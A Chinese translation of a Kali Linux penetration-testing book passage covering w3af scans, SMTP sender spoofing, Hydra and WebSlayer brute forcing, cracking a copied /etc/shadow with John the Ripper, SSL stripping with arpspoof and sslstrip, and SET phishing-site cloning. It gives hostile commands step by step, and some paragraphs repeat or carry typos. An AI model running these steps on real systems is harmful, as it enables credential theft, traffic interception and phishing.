w3af 提供了一个向导；但对于正确执行扫描并不是必须的。第一步是创建一个新配置（profile）或利用现有的配置。配置用于对运行在目标上的插件分组。w3af 自带了一些非常棒的默认组，例如 OWASP TOP10。当你选择它们时，现有配置的定义将显示在中间窗口中，如下所示（作为 OWASP TOP10 配置示例）。你可以在左侧列中选择现有的配置或你刚刚创建的新配置。如果你正在使用新配置或编辑现有配置，可以勾选将执行的扫描框框。勾选的插件越多，扫描所需的时间就越长。如果你勾选了大组，w3af 会警告你可能会有长时间延迟。点击 Start 运行扫描。

Open Web Application Security Project (OWASP) 是一个全球性的免费开源社区，致力于提高应用程序软件的安全性。OWASP 搜索并发布了十种常见的安全漏洞。此配置搜索了这些前 10 个漏洞。有关漏洞的更多信息请访问：http://www.owasp.org/index.php/OWASP_Top_Ten_Project。

接下来在 **Target:** 字段中输入 URL 并点击 Start。以下截图显示了设置 w3af 扫描 www.securityblogger.com:



## 服务端攻击

w3af 将 Log 中显示活动扫描的状态。w3af 将尝试预测完成扫描所需的时间。


要查看扫描结果，请点击 Results 标签。Results 将提供已识别可能漏洞的详情。Exploit 标签将显示可能的漏洞。（img/df1fdcde66c92c1fef83bd651dd5ffe3_121.png）


## 第 3 章

如果我们收到了响应，就可以使用 SMTP 命令操控大多数服务器（根据配置和系统类型，某些系统可能不受影响）。在接下来的示例中，我们首先通过 `HELO` 命令告诉服务器我们是谁。接下来，我们可以使用邮件服务器为未来的客户端攻击中继消息。

`HELLO`、`MAIL FROM`、`RCP TO` 和 `DATA` 是唯一必需的字段。你可以使用其他字段来隐藏电子邮件的发送位置，并更改回复地址（reply-to）。一个示例是更改 `Reply-to` 地址，目的是诱导接收者向其他人发送电子邮件。

``````
MAIL FROM: someone_important@cloudcentrics.com
```

可以通过查询 SMTP RFC 命令或使用 Google 搜索找到 SMTP 命令的完整列表。

## 暴力破解

暴力攻击是指对加密数据尝试所有可能的密钥进行检查，直到找到正确的密钥为止。从资源和时间的角度来看，暴力攻击的成本极高，因为攻击者正在利用密钥的长度和简单性来利用加密算法中的漏洞。密码通常基于字典词汇，这使得攻击者需要测试的总测试空间（即匹配字典中的所有单词）远小于使用随机字符的密码。缓解暴力破解攻击的最佳实践是使用长且复杂的密钥，以及在尝试多次后设置超时，以及其他增加更多安全因素的方法。

## Hydra

Hydra 是由 The Hacker's Choice (THC) 开发的工具，它使用暴力破解方法来测试多种不同的协议。它非常适合攻击邮件系统，因为 Hydra 可以针对特定的 IP 和协议，将邮件系统的 POP3 和 SMTP 管理员账户作为攻击目标。

在启动 Hydra 之前，你应该对目标（如邮件系统）进行**侦察（Reconnaissance）**。第 2 章“侦察”涵盖了漏洞评估工具 Zenmap，它可以用于为 Hydra 收集以下信息：

- 目标 IP 地址（例如 192.168.1.1）
- 开放端口（例如端口 80 或 25） 
- 协议（例如用于 Web 的 HTTP 或用于邮件的 SMTP）
- 用户名（例如 admin）

## 服务端攻击

另一个经常与 Hydra 配合使用的侦察工具是 Firefox 插件 Tamper Data。



Tamper Data 是由 Adam Judson 编写的工具，允许攻击者查看 HTTP 和 HTTPS 的 GET 和 POST 信息。在使用 Hydra 等工具对 Web 表单进行暴力破解时，这些信息非常有用，你可以自动化 Hydra 打开网页并测试用户名和密码组合。

当我们启用 Tamper Data 插件时，可以在向 Web 表单提交名称之前启动并运行该插件。



## 第 3 章

Tamper Data 将显示在字段组中输入的信息。即使网站经过加密，攻击者也可以操纵并重新提交数据。



在这个示例中，我们看到在提交登录按钮时使用了用户名 `pink` 和密码 `pinkprincess`。

这两个示例都是对目标进行侦察的两种实用方法，用于收集 Hydra 所需的有用信息。Kali 中还有许多其他方法和内置工具可以收集 Web 信息以用于 Hydra；然而，我们推荐 Netcat 和 Tamper Data 是最有效的方法。

现在我们已经完成了侦察阶段，让我们启动 Hydra，看看我们如何利用侦察信息进行暴力密码攻击。

要从 Kali 访问 Hydra，请前往...


## 服务端攻击

在“攻击设置”（Attack Setup）选项卡中，有一个 url 字段，必须填写目标 URI。使用 URL 字段的是请求头（Headers）和 POST 数据输入字段。有一个设置有效负载负载的选项，可以是字典（Dictionary）、范围（Range）或有效负载（Payload）。字典可以是一个包含有效负载的文件，该可以是自定义文件，也可以从可用字典列表中选择。范围设置可用于指定攻击的范围。有效负载设置可以从“有效负载生成器”（Payload Generator）选项卡导入有效负载。接下来的截图显示了 WebSlayer 针对 www.thesecurityblogger.com 的攻击：



有效负载生成器是一个你可以用来创建自定义有效负载的工具。你可以加载字典、数字范围、字符块、排列组合、信用卡、用户名和其他设置。你可以拼接它们并创建一个最终的有效负载，然后将其上传到攻击选项卡中进行自定义攻击。

在“有效负载生成器”选项卡中定义范围有效负载的示例见下图。该示例显示了范围从 0 到 1000。一旦选择了范围，我们点击“添加生成器”按钮，这将生成一个时间生成器（Temporal Generator）。将新创建的生成器拖到底部的有效负载创建器，并点击“生成有效负载”。我们现在可以在“攻击设置”选项卡中导入新的有效负载。

## 第三章

WebSlayer

- 攻击设置 | 有效负载生成器 | 攻击结果 | 请求者 | 编码器 | 日志 | 帮助

| 文件 | 范围 | 块 | 排列 | 信用卡 | 用户名 |
| :--- | :--- | :--- | :--- | :--- | :--- |
| 范围: | | 到 | 1000 | | |
| | 宽度: | | | | | |

- 固定宽度
- 添加生成器

你可以制作数字有效负载：
例如从 0 到 31，
或者使用从 000 到 031 的固定宽度。

| 时间生成器 | 最终有效负载: |
| :--- | :--- |
| PRange00 | 0 |
| | 1 |
| | 2 |
| | 3 |
| | 4 |
| | 5 |
| | 6 |
| | 7 |
| | 8 |
| | 9 |
| | 10 |
| | 11 |
| | 12 |
| | 13 |
| | 14 |
| | 15 |
| | 16 |
| | 17 |
| | 18 |
| | 19 |

- 删除生成器
- 从文件添加
- 保存有效负载
- 丢有效负载
- 有效负载创建器 | 有效负载修改器

模式: [@PRange00]

- 生成有效负载
- 删除选择

在将有效负载导入攻击场景或选择字典后，你必须选择 WebSlayer 在何处注入该有效负载。在被攻击的 URL 上放置关键字 FUZZ 即可实现这一点。例如，接下来的截图显示了攻击 URI 字段中的目标为 http://thethesecurityblogger.com/FUZZ，其中 FUZZ 是 WebSlayer 中两个不同的攻击字典：

- 攻击设置 | 有效负载生成器 | 攻击结果 | 请求者 | 编码器 | 日志 | 帮助

| 2) http://thesecurityblogger.com/FUZZ | 字典 | /test/web/webslayer/wordlistvs/planet.txt |
| :--- | :--- | :--- |
| 包含 | 代码: | 行: | | 单词: | | MOD: | 正则表达式 |
| 时间 | 代码 | 行 | 单词 | 字符 | MOD | 有效负载 | 位置 |
| 4 | 389236 200 | 648 | 1355 | 1320d5c099e85096ae56c64a5b6 | | | |
| 5 | 619838 200 | 648 | 1355 | 77f9b5a7711c3c2d14a979 | | 7wp-stop-ver |
| 6 | 389230 200 | 648 | 1355 | 57f3d5ce2b93d1b90d46b7bd5f1 | | 7wp-unche- |
| 7 | 386844 200 | 648 | 1355 | 58d0e5f4b39d18bf1674ac46072865 | | | 7wp-us-prop |
| 8 | 280993 101 | 70 | 250 | 1799a8f4a11a3a7c224e55b8f0d086c | 7wp-ver-diff | http://... |
| 9 | 345573 200 | 648 | 1355 | d5f0e75637c3b886d8b111aec | | cip-net |
| 10 | 372568 200 | 648 | 1355 | 51f0e75637c3b886d8b111aecc7fb | 7wp-ver-info |
| 11 | 476964 200 | 648 | 1355 | 1822f45d45e1293cd6b4f7c48029a | | |

- 浏览器 | 响应 HTML | 响应源 | 响应头
- 文档已移动至此处。

- 搜索
攻击已完成

## 服务端攻击

WebSlayer 可以攻击 HTTP 请求的任何部分，例如头部和身份验证。为了让 WebSlayer 破解 Web 服务器的密码，了解 WebSlayer 最可能不起作用的用户名是非常重要的。你需要捕获请求并尝试登录，以便获取攻击所需的用户代理（user agent）和内容。(img/df1fdcde66c92c1fef83bd651dd5ffe3_133_0.png)

Firefox 提供了一个名为 Live Headers 的插件，你可以它在尝试登录目标服务器时收集这些信息。接下来的示例显示了在捕获报头等数据包时使用了错误的密码。(img/df1fdcde66c92c1fef83bd651dd5ffe3_133_1.png) 第三章

该文档已移动至此处。(img/df1fdcde66c92c1fef83bd651dd5ffe3_133_2.png)

WebSlayer 提供将有效负载和结果导出为文本和 HTML 格式的能力。日志文件也可以捕获并粘贴到文本文件中。

## 分析：https://new.myspace.com
分析日期：2013-04-29 23:53:40

| 代码 | 行 | 单词 | URL |
| :--- | :--- | :--- | :--- |
| 200 | 648 | 1354 | http://www.thesecurityblogger.com/?Publisher= |
| 200 | 648 | 1354 | http://www.thesecurityblogger.com/?wp-html-rend= |
| 200 | 648 | 1354 | http://www.thesecurityblogger.com/?wp-cs-dump= |
| 200 | 648 | 1354 | http://www.thesecurityblogger.com/?wp-stop-ver= |
| 200 | 648 | 1354 | http://www.thesecurityblogger.com/?wp-start-ver= |
| 200 | 648 | 1354 | http://www.thesecurityblogger.com/?wp-uncheckout |
| 200 | 648 | 1354 | http://www.thesecurityblogger.com/?wp-usr-prop= |
| 301 | 72 | 20 | http://www.thesecurityblogger.com/cgi-bin |
| 200 | 648 | 1354 | http://www.thesecurityblogger.com/?wp-ver-diff= |
| 200 | 648 | 1354 | http://www.thesecurityblogger.com/?wp-ver-info= |
| 200 | 648 | 1354 | http://www.thesecurityblogger.com/?wp-verify-link= |

服务端攻击

WebSlayer 能够攻击 HTTP 请求的任何部分，如头部和身份验证。为了让 WebSlayer 破解 Web 服务器的密码，了解 WebSlayer 最可能不起作用的用户名是非常重要的。你需要捕获请求并尝试登录，以便获取攻击所需的用户代理（user agent）和内容。

WebSlayer 能够攻击 HTTP 请求的任何部分，如头部和身份验证。为了让 WebSlayer 破解 Web 服务器的密码，了解 WebSlayer 最可能不起作用的用户名是非常重要的。

一个 OWASP 项目。

WebSlayer 能够攻击 HTTP 请求的任何部分，如头部和身份验证。为了让 WebSlayer 破解 Web 服务器的密码，了解 WebSlayer 最可能不起作用的用户名是非常重要的。你需要捕获请求并尝试登录，以便获取攻击所需的用户代理（user agent）和内容。

WebSlayer 能够攻击 HTTP 请求的任何部分，如头部和身份验证。为了让 WebSlayer 破解 Web 服务器的密码，了解 WebSlayer 最可能不起作用的用户名是非常重要的。

一个 OWASP 项目。

WebSlayer 能够攻击 HTTP 请求的任何部分，如头部和身份验证。为了让 WebSlayer 破解 Web 服务器的密码，了解 WebSlayer 最可能不起作用的用户名是非常重要的。

一个 OWASP 项目。


## 服务端攻击

John the Ripper 的工作方式如下：

- 尝试使用字典单词破解密码
- 在字典单词前后添加字母或数字进行破解
- 统计字典单词数量
- 增加字母或数字以组合单词
- 运行混合了特殊字符的字典单词
- 当所有其他方法都失败时，尝试暴力破解

最佳实践是更新默认字典。我们发现默认词汇表非常有限（约 3115 个单词），在许多情况下无法破解常用密码。你可以通过搜索 Google 找到字典。要验证新单词文件的大小，可以在文件加载到活动文件夹后，打开终端并执行单词计数命令（word count），该命令是 `wc -l FILENAME`。

在从网上下载并合并多个单词列表时，经常会有重复单词。建议同时删除重复项和大写字母，因为 John 会自动切换大小写样式。移除单词的命令示例如下：

```bash
tr A-Z a-z < CustomWordFile AllLowerCaseFile
```

移除重复项的命令示例：

```bash
sort -u AllLowerCaseFile > NoDuplicatesOrUpperCase
```

通过对你的新文件执行单词计数命令来验证新的计数：

```bash
wc -l NoDuplicatesOrUpperCase
```

在 Kali 中打开 John the Ripper，进入 Password Attacks | Offline Attacks 并选择 John。这将打开一个命令行终端。

> Johnny 是 John the Ripper 的 GUI 界面。Johnny 将在第 4 章“客户端攻击”中进行介绍。

你可以通过输入 `john -test` 对 John the Ripper 的速度进行基准测试，了解它的运行速度。

要使用自定义单词文件（例如上一个示例中的 NoDuplicatesOrUppercase），你需要编辑默认词汇表。可以通过编辑默认 John the Ripper 文件夹下的 `john.conf` 文件来实现。在该文件中，你会找到指向默认 `passwords.lst` 的词汇表。

```conf
## 单词文件文件名，用于批模式
Wordlist = $JOHN/password.lst
```

将文件列表更改为你的新单词文件的文件名。根据上一个示例，你将其更改为 `Wordlist = NoDuplicatesOrUppercase.list`。新的词汇表文件必须位于 `john.conf` 文件指定的文件夹中。默认路径列在 $JOHN 目录下。

要使用 John Ripper 处理密码文件，你首先需要将目标文件复制到 John 目录。执行 `cp` 命令将文件移动到 John 目录。例如，要复制 shadow 文件（Linux 系统中常见的密码文件），输入 `cp /etc/shadow`。

一旦文件与 John the Ripper 位于同一目录，执行 `john` 命令和文件名。要对 shadow 文件运行 John Ripper，请输入 `john shadow`。

你可以通过按 Enter 键查看 John the Ripper 的进度，这会显示当前正在猜测的密码以及以 c/s 为单位的每秒破解数。

你可以通过同时按下 CTRL 和 C 键暂停 John the Ripper。如果你通过执行 `john FILE` 重启 John，它将从上次暂停文件的地方继续。

在 John the Ripper 完成后，输入 `john -show FILE` 查看结果。查看 shadow 文件的结果，输入 `john -show shadow`。

你可以在 http://www.openwall.com/ 找到更多关于 John the Ripper 的信息，例如其他命令。

## 中间人攻击

根据定义，中间人攻击是一种主动窃听的形式，攻击者通过与受害者建立独立连接来实现。最常见的中间人攻击发生在系统之间。不久前，在将用户从不安全网页引导到安全网页的系统中发现了一个漏洞。这使得攻击者能够窃听连接到安全服务器的用户。下一节将涵盖该漏洞。常见的中间人攻击将在本书的后续章节中介绍。

## SSL strip

2009 年，安全研究人员 Moxie Marlinspike 在 DefCon 上发布了 SSL strip。他引入了 SSL 剥离（SSL stripping）的概念，这是一种中间人攻击，网络攻击者代理用户的 HTTPS 请求，而是通过 HTTP 传输流量，而流量可以被拦截和操纵。SSL strip 自动化了这种攻击，并允许针对安全网站的用户。随后开发了 HTTP 严格传输安全（HSTS）规范来应对这些攻击，然而 HSTS 的部署非常缓慢，SSL 剥离攻击今天仍被广泛使用。

就本节而言，我们将仅使用单一接口；但你的虚拟机可能配置了多个以太网接口。我们需要检查是否启用了多个（虚拟）以太网接口。

```bash
root@kali:-# ifconfig | grep "eth"
eth0 Link encap:Ethernet Haddr 00:0c:29:49:
```

```bash
root@kali:-# ifdown eth0
Internet Systems Consortium DHCP Client 4.2.2
Copyright 2004-2011 Internet Systems Consortium.
All rights reserved.
For info, please visit https://www.isc.org/software/dhcp/
Listening on LPF/eth0:00:0c:29:49:73
Sending on LPF/eth0:00:0c:29:49:73
Sending on Socket/fallback
DHCPRELEASE on eth0 to 172.16.76.254 port 67
Reloading /etc/samba/smbd.conf: smbd only.
```

为了运行 SSL strip，你需要两个信息。首先，你需要目标主机的 IP 地址。其次，你需要网关的 IP 地址。执行此操作执行以下操作：

```bash
root@kali:-# route -n
Kernel IP table
Destination     Gateway         Genmask         Flags Metric Iface
0.0.0.0         172.16.76.254    0.0.0.0         UG    100    eth0
172.16.76.0     0.0.0.0         255.255.255.0   U     0      0 eth0
```

## 开始攻击

在我们开始收集用户凭据等信息之前，我们需要完成一些任务。我们需要启动允许我们重定向流量的设施。此外，我们需要启用 IP 转发和 arspoof。

启用 IP 转发：

```bash
echo 1 > /proc/sys/ipv4/ip_forward
```

```bash
root@kali:~# echo 1 > /proc/sys/ipv4/ip_forward
```

为了本示例，我们需要知道受者的 IP。这是为了避免整个网络的冲突和 ARP 地址风暴。在真实的攻击场景中，理想是对整个二层段运行 arspoof（如果省略受害者 IP，则是默认设置）。命令是：

```bash
arspoof -i eth0 -t victimip default_gateway_ip
```


# 第3章

```
root@kali: -- 
root@kali:~# iptables -t nat -A PREROUTING -p tcp --destination-port 80 --to-ports 10000
root@kali:~# 
```

要禁用 PREROUTING 规则，请将 -A 替换为 -D 以清除所有表规则。

iptables -t nat -F # 用于刷新 (flush)
iptables -t nat -L # 用于检查

arpspoof 有许多选项。你可以使用命令 `man iptables` 来查看更多选项。

现在，你已经准备就绪，可以开始使用 SSL strip 进行去捕获了！

启动 sslstrip，并在新打开的命令行窗口中运行以下命令以在 TCP 端口 10000 上启动 SSL strip 监听：

```
sslstrip -l 10000
```

```
root@kali:~# sslstrip -l 10000
sslstrip 0.9 by Moxie Marlinspike running...
```

## 服务端攻击

从目标主机上，访问在线邮件服务，例如 https://www.hotmail.com 并登录。



使用应用程序菜单快捷方式进入 SSLStrip 目录，打开另一个终端窗口并输入以下命令：

```
root@kali:~# tail -n 50 -f sslstrip.log
```

现在这里应该会显示 SSL strip 攻击的结果。

## 第3章

注意，在以下示例中，用户名和密码已被模糊处理，但它们应该以明文形式出现在你的屏幕上。



## 总结

本章解释了使用 Kali 中提供的工具攻破漏洞 Web 服务器的各种方法。最常用的方法是使用自动化工具识别已知漏洞，并利用最佳路径获取对目标系统的访问权限。

本章开始关注用于识别漏洞的各种工具。接下来的主题涵盖了用于利用常见服务器以及托管电子邮件服务器上漏洞的工具。接着，我们关注了暴力破解工具，这些工具可以从不受受已知漏洞利用的系统中收集数据。最后我们触及了密码破解和中间人攻击；然而，这些主题将在后面的章节中进行讨论。

下一章将重点关注识别和利用主机系统（也称为客户端设备）上的漏洞。

## 客户端攻击

客户端（client）或主机（host）一术是指用于连接到网络的端点，例如计算机、平板电脑或移动设备。客户端可以向其他客户端提供信息、服务和应用程序，或从另一个系统（如服务器）获取信息。通常，“客户端”一词指的是人们使用的端点。涉及这些意味着这些系统上存在一系列可能的漏洞，以及这些系统是否可以作为获取 Web 应用程序或信息的手段。本章的重点将是识别访问 Web 应用程序的系统、评估系统的漏洞，并在可能的情况下利用这些漏洞。本章将重点关注攻破密码，因为这是保护主机系统最常用的方法。

本章将通过介绍如何使用社会工程学攻击主机开始。随后，我们将查看如何识别主机系统上的漏洞，以便你使用书中其他章节介绍的工具来利用这些漏洞。我们将以攻击密码结束，因为它是保护主机系统最常见的手段。

## 社会工程学

对于目标的安全态势而言，人类永远是你最薄弱的环节。你越试图控制终端用户，他们就越尝试绕过策略。你实施的控制越少，策略被遵守的可能性就越低。这在决定如何保护终端用户免受网络威胁时形成了一把双刃剑。黑客知道这一点，并以各种方式针对终端用户，重点在于攻破普通用户的核心特征——**信任**。

社会工程学是操纵他人执行泄露信息行为的艺术。许多客户端攻击基于欺骗终端用户使其系统暴露在攻击之下。社会工程学的范围涵盖了假装成授权员工给某人打电话，到在 Facebook 上发布一个声称是服务但实际上是攻破客户端手段的链接。

发起成功的社会工程学攻击的良好实践是花时间了解你的目标；学习用户如何交流，并尝试融入他们的环境。大多数失败的社会工程学攻击都是由于以通用的格式编写的，而且它们没有包含吸引受害者的强力钩子（hook），就像一封编写糟糕的邮件，声称用户权获得未领取的资金。使用 Facebook 等社交媒体来源是了解目标的绝佳方法，可以了解目标青好的爱好和说话模式。例如，如果一个目标的 Facebook 个人资料布满了运动队标志，那么开发基于折扣运动票的陷阱将是理想的。

由于大多数客户端攻击都利用了社会工程学，下一节将探索 Kali 中常用的社会工程学工具。

## 社会工程学工具包 (SET)

社会工程学工具包 (SET) 由 TrustedSec 的创始人创建并编写。它是一个由 Python 驱动的开源工具，旨在通过社会工程学进行渗透测试。SET 是安全专业人员用于测试组织安全态势的极其流行的工具。现实中的攻击者使用 SET 构建主动和恶意的攻击。它是最常见的社会工程学攻击的首选工具。

要启动 SET，转到菜单栏 Exploitation Tools（利用工具） | Social Engineering Tools（社会工程学工具），并选择 se-toolkit。

当你第一次在 Kali 上启动 SET 时，SET 将直接从 GitHub 显示 SET 分发版更新。你将获得接收更新的选项。当你第一次在 Kali 上启动 SET 时，SET 将直接从 GitHub 显示 SET 分发版更新。你将获得接收更新的选项。选择 yes 接收更新。

## 第4章 



重要通知！社会工程学工具包对 Kali 和 FSH (Linux) 的目录结构进行了重大更改。

所有 SET 动态信息现在将保存在 ~/.set目录中，而不是 src/program_junk。

[I] 请注意，以后你应该使用 se-toolkit。
[I] 通过输入 'set' 启动 SET 将消失...
[I] 如果在 Kali 上，可以在任何地方输入 'se-toolkit'...
[I] 如果不在 Kali 上，运行 python setup.py 然后你就可以任何地方使用 se-toolkit..

按 {return} 继续进入 SET。
```

## 使用 SET 进行克隆和攻击

现在你已经理解了 SET 工作的基本原理，让我们使用他们可能信任的网站来攻破客户端。虽然我们可以使用任何网站，但我们建议使用简单的网站。

这是一个克隆企业 SharePoint 站点的示例，意图是利用这种破解。我们选择 SharePoint 站点是因为现实中它可以可以是任何你想要攻破的网站。作为渗透测试人员，我们可能希望使用能够实现你目标的工具。许多出于不当目的的攻击者可能会使用公共网站进行克隆。


下一步是通过进入 Exploitation Tools | Social Engineering Toolkit | se-toolkit 来启动 SET。

一旦你接受了所有的许可协议和和服务条款，你将看到 SET 的主界面。

```
The Social-Engineer Toolkit (SET)
created by: David kennedy (ReLIK)
Version: 5.0.10
Codename: 'The wild west'
Follow us on twitter: @trustedsec
Follow me on twitter: @dave_relik
Homepage: https://www.trustedsec.com
```

欢迎使用社会工程工具包 (SET)。这是满足你所有社会工程需求的一站式服务。

在 irc.freinode.net 的 #setoolkit 频道加入我们。

社会工程工具包是 TrustedSec 的产品。
访问：https://www.trustedsec.com

从菜单中选择：

- 1) 社会工程攻击 (Social-Engineering Attacks)
- 2) 快速渗透测试 (Fast-Track Penetration Testing)
- 3) 第三方模块 (Third Party Modules)
- 4) 更新 Metasploit 框架 (update the Metasploit Framework)
- 5) 更新社会工程工具包 (update the Social-Engineer Toolkit)
- 6) 更新 SET 配置 (update SET configuration)
- 7) 帮助、感谢和关于 (Help, credits, and About)
- 99) 退出社会工程工具包 (Exit the Social-Engineer Toolkit)

```
set > 1
```

## 客户端攻击

建议在运行 SET 之前选择 **5) 更新社会工程工具包** 选项。更新后，选择 **1) 社会工程攻击**。下一张截图显示了 SET 中 **社会工程攻击** 下可用的不同网站攻击向量。鱼叉式钓鱼攻击是一种流行的攻击方式，能够将攻击嵌入到电子邮件和 PDF 中。鱼叉式钓鱼攻击会通过 SET 直接从受害者处处发出的伪造电子邮件发送攻击文件。


欢迎使用社会工程工具包 (SET)。这是满足你所有社会工程需求的一站式服务。
在 irc.freinode.net 的 #setoolkit 频道加入我们。
**社会工程工具包是 Trustedsec 的产品。**
访问：https://www.trustedsec.com

从菜单中选择：

- 1) 鱼叉式钓鱼攻击向量
- 2) 网站攻击向量
- 3) 感染媒介生成器
- 4) 创建载荷和监听器
- 5) 批量邮件攻击
- 6) 基于 Arduino 的攻击向量
- 7) 短信伪装攻击向量
- 8) 无线访问点攻击向量
- 9) 二维码生成器向量
- 10) PowerShell 攻击向量
- 11) 第三方模块
- 99) 返回主菜单。

```
set> 2_
```

在本示例中，我们将选择 **网站攻击向量**，因为我们之前为了进行网站攻击克隆了一个网站。接下来，我们需要确定如何交付载荷。有多个可用选项。选择 **Java Applet 攻击**，它通常是选项 1。

## 第 4 章

- 10) PowerShell 攻击向量
- 11) 第三方模块
- 99) 返回菜单。
set> 2

Web攻击模块是一种利用多种基于 Web 的攻击来入侵目标受害者的独特方法。

Java App 攻击方法将破坏一个 Java 证书并交付恶意载荷，这是一个由 Thomas werth 创建的用于交付载荷的自定义 java app。

Metasploit 浏览器漏洞利用方法将利用 Metasploit 浏览器漏洞利用并交付 Metasploit 载荷。

凭据收集器 (Credential Harvester) 方法将使用一个带有用户名和密码字段的假网站，并收集在该网站发布的所有信息。

标签替换 (Tabnabbing) 方法允许用户移动到不同的标签页，刷新页面显示不同的内容。

